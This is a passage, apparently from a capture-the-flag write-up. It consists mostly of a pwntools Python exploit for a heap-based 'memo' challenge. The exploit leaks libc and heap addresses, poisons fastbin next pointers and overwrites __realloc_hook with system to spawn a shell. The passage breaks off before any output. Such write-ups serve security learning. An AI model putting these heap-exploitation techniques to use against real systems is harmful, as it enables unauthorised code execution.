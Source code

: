 ```python

  def show(idx):
     menu(3)
     r.sendlineafter("Index of memo you want to show: ",str(idx))
     r.recvuntil("Name: ")

  def delete(idx):
     menu(4)
     r.sendlineafter("Index of memo you want to delete: ",str(idx))

  def getleak():
     create(200,"AAAAAAAA") #0
     create(200,"BBBBBBBB") #1
     delete(0)
     create(0)   #0
     show(0)
     libc.address=u64(r.recvuntil('\n').strip().ljust(8,'\x00'))-0x3c4c38
     log.info("libc @ " +hex(libc.address))
     delete(1)
     delete(0)
     create(0)   #0
     show(0)
     heap=u64(r.recvuntil('\n').strip().ljust(8,'\x00'))-0xf0
     log.info("heap @ " +hex(heap))
     return heap

  def exploit(heap):
     create(150,"/bin/sh\x00") # 1
     create(0) # 2
     create(20,"EEEEEEEE") # 3
     delete(3)
     create(70,"A"*48+p64(0)+p64(0x21)) # 3
     edit(2)
     delete(3)
     delete(2)
     create(20,p64(heap+0x1d0)) #2 #overwrite next ptr of fastbin 0x20
     create(96,'w'*8) #3
     delete(3)
     create(200,"Q"*16)    #3
     create(24,p64(0)+p64(0x71)+p64(libc.address+0x3c4aed))  #4 #overwrite next ptr of fastbin 0x70
     create(96,'w'*16)   #5
     create(96,"A"*11+p64(libc.symbols['system'])) # overwritting realloc_hook
     edit(1)

  if __name__=='__main__':
     heap=getleak()
     exploit(heap)
     r.interactive()
```
And on running the exploit-
